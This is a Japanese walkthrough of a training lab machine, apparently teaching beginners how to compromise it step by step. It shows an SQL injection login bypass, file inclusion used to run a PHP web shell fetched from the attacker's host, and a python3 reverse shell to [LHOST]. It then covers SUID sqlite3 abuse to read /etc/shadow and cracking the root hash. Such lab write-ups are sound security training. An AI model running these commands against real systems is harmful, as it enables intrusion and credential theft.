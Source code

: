 machine2で学べることは以下のことです。

- 簡単なSQL injectionを使った認証突破
- LFIとRFI
- suidバイナリによる権限昇格
- おすすめ視聴タイミング: Learning PathのLP-6~LP-7に取り組む前後

### 攻略の流れ
#### Enumeration
nmapを用いてポートスキャンを行います。
```
$ nmap machine2
```
開いていることがわかったポートに対して-sCオプションと-sVオプションをつけてより詳細なスキャンを行います。
```
 $ nmap -p80 -sC -sV machine2
 ```
サービスの調査に移る前に、見落としを避けるためにフルポートスキャンを行います。

今回は-p-オプションを使っています。
```
$ nmap -p- machine2
```
ブラウザでアクセスするとログインページが表示され、簡単なユーザネームとパスワードではログインできません。

SQL Injectionやhydraなどを用いたブルートフォース、gobusterなどを用いたディレクトリの列挙などが考えられますが、今回はSQL Injectionを試みます。
```
' or 1=1 --
```
SQL Injectionを使って認証を突破し、新しいページが表示されました。

urlを確認するとfileというパラメータにaboutme.phpが渡されていることから、aboutme.phpというファイルを読み込んで表示していることが推測されます。

fileというパラメータに/etc/passwdを渡すとファイルが読み込まれて出力されたので、Local File Inclusion(LFI)に脆弱であることがわかりました。

Initial Shell
さらに追加で調査を行うとRFIにも脆弱であることがわかったので、任意のコマンドを実行することが可能になります。

まずphpでOSコマンドを実行できる簡単なスクリプトを作成し、Kali上でpythonを用いてhttpサーバを建てます。
```
&lt;?php system($_GET['cmd']); ?&gt;
```
そして、urlのパラメータでKali上のファイルと実行したいコマンドを指定します。
```
http://machine2/home.php?file=http://[LHOST]:8888/a.php&cmd=whoami
```
任意のコマンドを実行できるようになったのでリバースシェルを取得します。

python3はほとんどのサーバにインストールされており使いやすいため、今回はpython3を利用します。

ncコマンドを用いてリバースシェルを待ち受け、リバースシェルをはるコマンドを実行するとリバースシェルが得られます。
```
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LHOST]",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
#### Enumeration(権限昇格)
シェルを使いやすくするため、シェルのアップグレードを行います。
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'  
(Ctrl+z)  
$ stty raw -echo;fg  
(Enter)  
(Enter)  
$ export TERM=xterm
```  
権限昇格の列挙では様々なツールを用いることができますが、今回は手動で列挙しています。

以下のコマンドを実行することでfindコマンドを用いてSUIDが設定されているバイナリを列挙することができます。
```
$ find / -perm -4000 2&gt;/dev/null
```
Privilege Escalation
SUIDの設定されたバイナリ一覧を確認するとsqlite3があり、これについて調査するとファイルの内容を読み込めることがわかりました。
```
LFILE=/etc/shadow
sqlite3 &lt;&lt; EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```
これによって/etc/shadowを読み込み、rootのパスワードハッシュがわかります。

rootのパスワードハッシュをhashcatやjohn the ripperなどのツールを使って解析するとrootのパスワードがわかるため、suコマンドを用いてrootになることができます。
```
$ hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt   
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
$ su
```